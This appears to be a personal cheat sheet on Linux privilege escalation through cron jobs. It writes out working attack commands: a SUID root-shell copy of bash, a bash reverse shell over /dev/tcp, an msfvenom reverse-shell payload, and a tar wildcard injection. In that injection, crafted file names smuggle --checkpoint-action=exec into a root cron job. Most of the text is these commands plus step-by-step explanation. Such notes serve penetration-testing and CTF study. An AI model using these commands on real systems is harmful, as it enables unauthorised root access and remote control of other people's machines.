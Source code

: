 # Step one is to check if crontabs are exploitable
    cat /etc/crontab

# If a cronjob is globally writeable you can edit the script to run malicious code. For example:
    spawn a root shell:
        cp /bin/bash /tmp/rootbash
        chmod +xs /tmp/rootbash

        move into /tmp/ and run rootbash
    run a reverse shell that connects to a local machine:
        bash -i >& /dev/tcp/<local_ip>/1337 0>&1

        run netcat listener on local machine and wait for cronjob to run

## Wildcard Injection Exploit ##
# If a cronjob is run as root and the tar program can be run as sudo, you can exploit the tar
# program and its arguments to use a wildcard operator and compress an entire directory
# First step is to replace the cronjob with this script:
	#!/bin/bash
	cd /home/vulnerable_user
	tar czf /tmp/backup.tar.gz *

	This script is compressing the contents of an entire directory

# Then create an elf binary that holds a reverse shell and make it executable
	msfvenom -p linux/x64/shell_reverse_tcp LHOST=host LPORT=port -f elf -o shell.elf
	chmod +x shell.elf

# Next, get the file onto the victim machine somehow
# On the victim machine, create these two files in the directory that you're telling the tar
# program to compress
	touch /home/user/--checkpoint=1
	touch /home/user/--checkpoint-action=exec=shell.elf

# Final step is to wait until the cronjob runs
# The process is going to go like this:
	The script within the cronjob tells the computer to compress the specified directory
	Once the cronjob runs, it's going to compress the directory but will also read the two newly
		created files as arguments for the tar program, so the script will turn into:
	tar czf /tmp/backup.tar.gz file1.txt photo.jpg --checkpoint=1 --checkpoint-action=exec=shell.elf
	This full command is telling the computer to compress the chosen directory: tar czf /tmp/backup.tar.gz
	Then the files within the directory become part of the arguments: file1.txt photo.jpg --checkpoint=1 --checkpoint-action=exec=shell.elf
	The final two arguments run the exploit. They are telling the computer that "upon processing any one file (--checkpoint=1) to then run
		the shell.elf executable (--checkpoint-action=exec=shell.elf)
	This runs the reverse shell and will connect to an attackers netcat listener
